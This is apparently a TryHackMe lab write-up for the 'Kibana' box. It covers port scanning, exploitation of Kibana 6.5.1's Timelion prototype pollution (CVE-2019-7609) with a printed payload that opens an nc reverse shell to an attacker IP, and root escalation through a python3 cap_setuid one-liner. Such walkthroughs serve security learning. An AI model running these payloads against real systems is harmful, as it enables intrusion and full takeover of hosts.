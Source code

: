 * * *
 ### LAB: KIBANA
 ### PLATFORM: THM
* * *
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/265763d7-294c-4777-adbf-b560b0da6ce4)

### ENUMERATION

- Rustscan's details
      
      Open 10.10.97.58:80
      Open 10.10.97.58:5044
      Open 10.10.97.58:5601
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Discovered open port 22/tcp on 10.10.97.58
      Discovered open port 80/tcp on 10.10.97.58
      Discovered open port 5601/tcp on 10.10.97.58
      Discovered open port 5044/tcp on 10.10.97.58
      Completed Connect Scan at 02:14, 0.25s elapsed (4 total ports)
      Initiating Service scan at 02:14
      Scanning 4 services on 10.10.97.58
      Completed Service scan at 02:14, 27.85s elapsed (4 services on 1 host)
      NSE: Script scanning 10.10.97.58.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 02:14
      Completed NSE at 02:14, 10.90s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 02:14
      Completed NSE at 02:14, 0.57s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 02:14
      Completed NSE at 02:14, 0.00s elapsed
      Nmap scan report for 10.10.97.58
      Host is up, received syn-ack (0.24s latency).
      Scanned at 2024-01-27 02:14:07 EST for 39s
      
      PORT     STATE SERVICE      REASON  VERSION
      22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdVrdscXW6Eaq1+q+MgEBuU8ngjH5elzu6EOX2UJzNKcvAgxLrV0gCtWb4dJiJ2TyCLmA5lr0+8/TCInbcNfvXbmMEjxv0H3mi4Wjc/6wLECBXmEBvPX/SUyxPQb9YusTj70qGxgyI6SCB13TKftGeHOn2YRGLkudRF5ptIWYZqRnwlmYDWvuEBotWyUpfC1fGEnk7iH6gr3XJ8pwhY8wOojWaXEPsSZux3iBO52GuHILC14OiR/rQz9jxsq4brm6Zk/RhPCt1Ct/5ytsPzmUi7Nvwz6UoR6AeSRSHxOCnNBRQc2+5tFY7JMBBtvOFtbASOleILHkmTJBuRK3jth5D
      |   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2fQ/bb8Gwa5L5++T3T5JC7ZvciybYTlcWE9Djbzuco0f86gp3GOzTeVaDuhOWkR6J3fwxxwDWPk6k7NacceG0=
      |   256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJk7PJIcjNmxjQK6/M1zKyptfTrUS2l0ZsELrO3prOA0
      80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html).
      5044/tcp open  lxi-evntsvc? syn-ack
      5601/tcp open  esmagent?    syn-ack
      | fingerprint-strings: 
      |   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
      |     HTTP/1.1 400 Bad Request
      |   FourOhFourRequest: 
      |     HTTP/1.1 503 Service Unavailable
      |     retry-after: 30
      |     content-type: text/html; charset=utf-8
      |     cache-control: no-cache
      |     content-length: 30
      |     Date: Fri, 26 Jan 2024 23:09:44 GMT
      |     Connection: close
      |     Kibana server is not ready yet
      |   GetRequest: 
      |     HTTP/1.1 503 Service Unavailable
      |     retry-after: 30
      |     content-type: text/html; charset=utf-8
      |     cache-control: no-cache
      |     content-length: 30
      |     Date: Fri, 26 Jan 2024 23:09:34 GMT
      |     Connection: close
      |     Kibana server is not ready yet
      |   HTTPOptions: 
      |     HTTP/1.1 503 Service Unavailable
      |     retry-after: 30
      |     content-type: text/html; charset=utf-8
      |     cache-control: no-cache
      |     content-length: 30
      |     Date: Fri, 26 Jan 2024 23:09:35 GMT
      |     Connection: close
      |_    Kibana server is not ready yet
      

- Port 5601 provides Kibana as a service and the version `6.5.1` is vulnerable to Prototype Pollution.Prototype pollution is a vulnerability that is specific to programming languages with prototype-based inheritance (the most common one being JavaScript)

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a80efcb8-a2b9-4f8a-8e5a-6f438d8049c1)

-   To gain rce with Timelion,I got this code from this <a href="https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/">page</a> to gain rce,
  The code to get a rev shell
 `.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.158.229 1337 >/tmp/f");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1924e4f4-6784-4093-ac93-b2ff81fc1e25)

- To activate the code,click on canvas,now we have a reverse shell
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e04194d1-92df-402a-844c-ead917068c78)

### PRIVESC WITH CAPABILITIES

- To check for binaries with capabilities,use `getcap -r / 2</dev/null`,Python3 has a cap_setuid capabilities which will allow us to setuid of users

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7a01dfb3-6384-425d-a712-31c0ecdad1ac)

- We can escalate privileges by setting the uid of our current user to 0 which is root,I used this payload   
  `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

- Root access
  
     ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3702df4b-927e-49e6-9dc3-251d7d730b76)
